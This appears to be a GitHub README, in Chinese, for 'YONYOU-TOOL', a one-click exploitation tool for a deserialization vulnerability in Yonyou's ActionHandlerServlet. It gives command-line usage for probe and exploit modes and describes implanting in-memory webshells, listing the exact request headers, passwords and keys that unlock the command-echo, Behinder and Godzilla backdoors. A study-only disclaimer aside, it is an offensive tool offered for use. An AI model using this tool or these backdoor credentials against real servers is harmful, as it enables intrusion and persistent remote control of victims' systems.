




# YONYOU-TOOL

用于用友漏洞一键利用。

学习用友 ActionHandlerServlet 反序列化过程时一时兴起，顺手写一款利用工具记录学习。

本项目参考 **wafinfo** 项目代码，项目地址：https://github.com/wafinfo/NCTOOls。

## 免责声明

本工具仅适用于安全研究学习，严禁使用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

## 支持漏洞

```
ActionHandlerServet 反序列化
```

目前仅支持 ActionHandlerServlet 反序列化漏洞，后续根据学习进度**佛系**更新......

## 使用说明

```
Usage: java -jar YONYOU-TOOL.jar [Options]
  Options:
    -h, --help        Show this help
    -t, --target      Set target url  (e.g.: http://0.0.0.0:443)
    -m, --module      Set module  (support: poc exp)
    -v, --vuln        Set vulnerability  (e.g.: ActionHandlerServlet)
    -p, --proxy       Set http proxy  (e.g.: http://127.0.0.1:8080)
    -d, --dnslog      Set dnslog platform
  Vuln Support:
    1. ActionHandlerServlet
  Tips:
    1. You must specify the target, vuln, mod parameters.
    2. When mod is set to poc, the dnslog parameter must be specified.
```

## 使用教程

### 漏洞探测

支持自定义 dnslog 探测。-t 指定目标 url，-v 指定利用的漏洞，-m 指定 poc 模块，-d 指定dnslog。



### 漏洞利用

支持一键打入内存马，同时注入回显、冰蝎、哥斯拉。

```
回显
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:testzxcv
testzxcv:<base64编码后命令>
--------------------------------------------------------------------------------------------
冰蝎
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:behinder
密码
chaveyyds
--------------------------------------------------------------------------------------------
哥斯拉
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:godzilla
密钥
chaveyyds
密码
pass
```

-t 指定目标 url，-v 指定利用的漏洞，-m 指定 exp 模块。



注入 Filter 类型内存马需要手动检查内存马是否存在。






## 最后

后续有时间增加漏洞...再说...再说...再说...

后续考虑修改为图形化界面...

记录学习为主...

能用就行...
